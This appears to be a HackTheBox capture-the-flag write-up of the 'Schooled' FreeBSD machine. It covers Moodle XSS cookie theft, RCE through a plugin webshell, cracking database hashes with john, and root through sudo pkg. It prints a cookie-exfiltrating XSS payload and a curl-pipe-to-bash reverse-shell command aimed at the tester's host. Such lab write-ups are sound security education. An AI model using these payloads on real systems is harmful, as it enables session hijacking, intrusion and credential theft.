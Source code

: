 ```yaml
---
title: Schooled Writeup [HTB]
tags: [HackTheBox, Cross Site Scripting, Moodle]
image: /assets/images/schooled/schooled.png
published: true
banner: true
---
```


Schooled is a Free BSD based machine that was active since April 3rd of 2021 to September 11th, on this machine we will use a XSS vulnerability to steal the cookie of a teacher inside Moodle, once with the privileges of this user we will be able to exploit CVE-2020-14321 to get command execution inside the machine, after we get inside the machine we will get the password of the database inside Moodle's configuration file, then we will get some hashes from the database and crack them with john, finally we will abuse of pkg to get a shell as root.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.234
nmap -sC -sV -p 33060,80,22, -Pn -o scan.txt 10.10.10.234

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000

Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

We see three ports open ssh, http and possibly mysql, we start by checking the webpage.

![](/assets/images/schooled/website.png)

It seems like the webpage of a school, at the bottom we see some contact information, there is a domain "schooled.htb", so we add it to our hosts file.

![](/assets/images/schooled/contact.png)

Then we use ffuf to search for any subdomain.

![](/assets/images/schooled/ffuf.png)

It found moodle, so we add that to our hosts files, and visiting it as we would expect we find a moodle instance.

![](/assets/images/schooled/moodle.png)

We don't have any account to access to it, but the site allows us to create one, so we fill the register page using a @student.schooled.htb mail, since the site won't accept another domain for the mail.

![](/assets/images/schooled/register.png)

After exploring the page we find out that we can enroll ourselves to mathematics course (it is located at http://moodle.schooled.htb/moodle/enrol/index.php?id=5). Once inside the course we see a reminder set by a teacher.

![](/assets/images/schooled/reminder.png)

# Owning Teacher Account

The teacher says something interesting, `Students who do not set their MoodleNet profiles will be  removed from the course before the course is due to start and I will be checking all students who are enrolled on this course.`, we search for any CVE on moodle that could be related to this message, so we go to [https://www.cvedetails.com/vulnerability-list/vendor_id-2105/Moodle.html](https://www.cvedetails.com/vulnerability-list/vendor_id-2105/Moodle.html), and there we find the [ CVE-2020-25627](https://www.cvedetails.com/cve/CVE-2020-25627/), that indicates that MoodleNet Profile field is vulnerable to XSS, the affected versions are 3.9 to 3.9.1, we don't know the version of moodle that is running so we can just test it, the teacher said that he will be checking the profiles of the enrolled stundents, so we can try to steal his cookies, to do so we edit our profile and set a XSS payload on MoodleNet Profile field, on this case we use `<script> document.write('<img src="http://10.10.16.42:8000/?cookie=' + document.cookie + '">') </script>`.

![](/assets/images/schooled/xss.png)

We start a python http server, and after waiting some time we get a cookie.

![](/assets/images/schooled/cookie.png)

Now we just need to set that cookie in our browser, and when we recharge the page we will be under Manuel Phillips account.

![](/assets/images/schooled/teacher.png)

Now this part took me a while, if you google for moodle vulnerabilities or similar you will find a [video](https://www.youtube.com/watch?v=BkEInFI4oIU) about how to exploit CVE-2020-14321, well I was looking only at the CVE page, and at the time of solving that machine that CVE didn't appear there, if we access to the CVE page [directly](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14321), we see the next information.

![](/assets/images/schooled/reservedCVE.png)

The CVE is in reserved state, we will find something similar on [NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-14321) page, so yeah, there are tons of vulnerabilities without a CVE assigned and like on this case, the CVE might not be public, so it's a good practice to not only look for CVEs when looking for known vulnerabilities.

# [](#header-1)Gaining Access

So the steps to exploit this CVE are:
1.  Add ourselves to the course with manager privileges (to do so we just change the rolsetoassign to 1).
2.  Add an administrative user as a student in our course.
3.  Enter to that teacher profile and impersonate it (this is a default function that moodle offers).
4.  With that administrator account edit privileges of manager role (you can find the privileges you want to set on [github](https://github.com/HoangKien1020/CVE-2020-14321)).
5.  Upload a malicious plugin that will give you command execution ([here](https://github.com/HoangKien1020/Moodle_RCE) you can find a typical webshell)

So our obvious target would be the teacher of Information Technology, since his user id is "2", he is most likely the administrator since he is the first user created on the site (id 1 belongs to guest users), so we reproduce steps 1 to 3. But here we have a problem, we don't get the button to act as this user after reproducing the steps, probably moodle has a kind of protection that can be set for certain users.

![](/assets/images/schooled/itteacher.png)

So we have to try with the other teachers since it's possible that there is more than one site administrator, we try the English Literalute teacher, Jamie Borham, and as we see we do have the button to log in as this account.

![](/assets/images/schooled/englishteacher.png)

This account has adminstrative privileges!, if we impersonate the wrong account we will have to log out completely, and we will have to wait again to get a valid cookie through XXS, so now we have to reproduce steps 4 and 5. Once we have installed the plugin we can go to "http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id", and see our webshell.

![](/assets/images/schooled/webshell.png)

Now we can go with our usual method, host a bash reverse shell file with a python http server, fetch it with curl and pipe it to bash, but if we try to access to `http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=curl+10.10.16.42:8000/shell.sh|bash`, we won't get any request, maybe curl is'nt installed?, or maybe it is just not in the PATH, so we execute `find / -name curl` in our webshell and we get `/usr/local/bin/curl`, the file is there, so now we only need to use it with the absolute path: `http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=/usr/local/bin/curl+10.10.16.42:8000/shell.sh|bash`, and then we will get a shell in the machine.

![](/assets/images/schooled/shell1.png)

# Lateral Movement

On similar way if we want to stabilize our shell, python3 is not in the path, but using find we find it in "/usr/local/bin/python3". As always we search for configuration files, since we have Moodle we go to the [documentation](https://docs.moodle.org/311/en/Configuration_file), which point us to config.php, reading that file we find some credentials for the database.

![](/assets/images/schooled/dbcreds.png)

Now we can access to the database, again mysql is not found, so we add "/usr/local/bin/" to our path to stop having these issues. Inside the moodle database we get the hashes of the passwords of all the users inside the mdl_users table.

![](/assets/images/schooled/passwords.png)

The password that is more interesting is the one of administrator, the passwords are hashed with bcrypt, which would take a lot to crack, so I like to try first with some small list hoping to find it there, on this case I use common_roots.txt, if you need some computer power you can use [penglab](https://github.com/mxrch/penglab) to use google infrastructure to crack the password, luckily we found the password with common_roots.

![](/assets/images/schooled/john.png)

This password belongs to "jamie", so we change to that user and retrieve user.txt.

![](/assets/images/schooled/shell2.png)

# [](#header-1)Privilege Escalation

Now we check if we can execute anything with sudo.

![](/assets/images/schooled/sudo.png)

We see that we can install anything with `pkg`, there is an entry on [GTFObins](https://gtfobins.github.io/gtfobins/pkg/) of how to abuse this to get command execution as root, so we install fpm in our machine, create a reverse shell file and create a FressBSD package.

![](/assets/images/schooled/fpm.png)

We upload that file, and when we install it we get a shell as root and finish with the machine.

![](/assets/images/schooled/root.png)